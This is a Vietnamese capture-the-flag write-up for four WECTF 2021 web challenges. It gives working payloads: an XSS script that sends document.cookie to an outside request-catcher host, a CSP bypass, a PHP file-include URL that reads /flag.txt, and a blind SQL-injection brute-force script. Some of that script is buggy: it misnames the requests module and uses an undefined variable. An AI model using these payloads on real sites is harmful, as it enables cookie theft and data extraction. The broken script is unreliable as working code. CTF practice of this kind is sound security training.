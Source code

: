 # WECTF 2021 Writeup

## Cache

![](https://i.imgur.com/oRJ8QGG.png)

Truy cập vào `/flag` thì hiện `Only admin can view this!`

Kiểm tra file trong folder `handout.zip` thấy file Dockerfile.test thì chall này giấu flag ở env của python.

```Dockerfile
FROM python:3.8.10-alpine

WORKDIR /usr/src/app
RUN pip install django gunicorn
COPY . .
ENV FLAG "we{testflag}"
ENV ADMIN_TOKEN 123
CMD ["gunicorn", "cache.wsgi", "-b", "0.0.0.0:80"]
```

Có thêm cả ADMIN_TOKEN thì có vẻ nó để xác thực để lấy flag.

Check file urls.py thấy có xuất hiện bước xác thực cookies là `ADMIN_TOKEN` để có thể xem đc flag.

```python
def flag(request: HttpRequest):
    token = request.COOKIES.get("token")
    print(token, ADMIN_TOKEN)
    if not token or token != ADMIN_TOKEN:
        return HttpResponse("Only admin can view this!")
    return HttpResponse(FLAG)
```

Truy cập vào trang web uv.ctf.so để lấy cookies send script qua XSS:

```html
<script>fetch(`https://hyp.requestcatcher.com?c=${document.cookie}`)</script>
```

Sử dụng cookie đó chèn vào web và truy cập `/flag` để lấy flag

## CSP 1

Check file `app.py` ta thấy khi submit `/write` thì token được gen ngẫu nhiên

![](https://i.imgur.com/K9rTQxp.png)

```python
resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " f"'self' {filter_url(img_urls)}; script-src 'none'; ""style-src 'self'; base-uri 'self'; form-action 'self' "
```

Ta sẽ inject qua `{filter_url(img_urls)}` 

Thử send script:

```html
<img src="https://hyp.requestcatcher.com/c;script-src">
```

![](https://i.imgur.com/RvzMtzT.png)

Thì ta đã bypass đc CSP bài này khá đơn giản

Send script:

```html
<img src="http://127.0.0.1:5500;script-src"/>
<img src="http://127.0.0.1:5500/bao-cao/script.js"/>
<script src="http://127.0.0.1:5500/bao-cao/script.js"></script>
```

Yeah ta đã lấy đc admin cookies

## Include

Description: ` yet another buggy PHP website. Flag is at /flag.txt on filesystem Host 1 (San Francisco): include.sf.ctf.so Host 2 (Los Angeles): include.la.ctf.so Host 3 (New York): include.ny.ctf.so Host 4 (Singapore): include.sg.ctf.so`

Thì chắc chắn flag nằm trong `/flag.txt`

```php
<?php
show_source(__FILE__);
@include $_GET["🤯"];
```

include path file bị lỗi ta sẽ lấy file text qua 🤯

URL encode cái 🤯 ta thu đc được `%f0%9f%a4%af`

Vì vậy payload là: `/?%f0%9f%a4%af=%2fflag.txt`

## Phish 

Description: 

```
Shou is so dumb that he leaks his password (flag) to a phishing website.

Note: The flag contains underscore

Host 1 (San Francisco): phish.sf.ctf.so
Host 2 (Los Angeles): phish.la.ctf.so
Host 3 (New York): phish.ny.ctf.so
Host 4 (Singapore): phish.sg.ctf.so
```

Check source code file main.py ta thấy dữ liệu được gửi đến server rồi từ đó vào database:

```python

@app.route("/add", methods=["POST"])
def add():
    username = request.form["username"]
    password = request.form["password"]
    sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
    try:
        db.execute_sql(sql)
    except Exception as e:
        return f"Err: {sql} <br>" + str(e)
    return "Your password is leaked :)<br>" + \
           """<blockquote class="imgur-embed-pub" lang="en" data-id="WY6z44D"  ><a href="//imgur.com/WY6z44D">Please 
        take care of your privacy</a></blockquote><script async src="//s.imgur.com/min/embed.js" 
        charset="utf-8"></script> """
```

Điểm ta chú ý nhất là 

```python
sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"

```

Có vẻ như đoạn code này dính SQL injection.

Send thử payload

```python
password = "abc"
username = "(SELECT * FROM xyz)') -- "
sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
print(sql)
    
#   INSERT INTO `user`(password, username) VALUES ('abc', '(SELECT * FROM xyz)') -- ')
```

Nó cho phép ta SELECT cột từ các bảng hoặc các hành động khác.

Mình sẽ khai thác lấy các kí tự trong mật khẩu bằng cách ép buộc thông qua truy vấn SQL như này:

```sql
SELECT password FROM user WHERE username = "shou" AND password LIKE "%---HERE---%"
```


Chúng tôi biết rằng có một shou tên người dùng với mật khẩu là lá cờ
Do đó, chúng tôi có thể kiểm tra xem một ký tự có trong mật khẩu hay không bằng cách thêm một điều kiện mà mật khẩu LIKE '% --- HERE ---%'
Điều này hoạt động bằng cách sử dụng điều kiện LIKE, cùng với ký tự đại diện nhiều ký tự,%

Ta biết rằng có một người tên là shou tên người dùng với password là flag.

Do đó, ta có thể kiểm tra xem một kí tự có trong mật khẩu hay không bằng cách thêm một điều kiện mà `password GLOB "%---HERE---%"`

`LIKE` không thể check được chữ hoa chữ thường vì vậy ở đây t sử dụng `GLOB`

Để thực hiện điều đó ta sẽ inject như này:

* username: `hip`

* password: `a',(SELECT password FROM user WHERE username = "shou" AND password GLOB "%{i}%")); --`

Tiếp theo là brute password

Script:

```python
import request, string

u = 'http://localhost:4009/add'
s = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'
flag = 'we{'
result = ''

for i in s:
    body = {'username':'hip', 'password':f'a\',(SELECT password FROM user WHERE username = \"shou\" AND password LIKE \"%{i}%\")); --'}
    s = request.Session()
    r = s.post(u, data=body)
    if 'UNIQUE' in r.text: result += i
while flag[-1] != '}':
    for i in foundchars:
        body = {'username':'abc', 'password':f'a\',(SELECT password FROM user WHERE username = \"shou\" AND password GLOB \"{flag+i}*\"));--'}
        s = request.Session()
        r = s.post(u, data=body)
        if 'UNIQUE' in r.text: flag += i
        print(flag)
```

```python
# result: we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P
```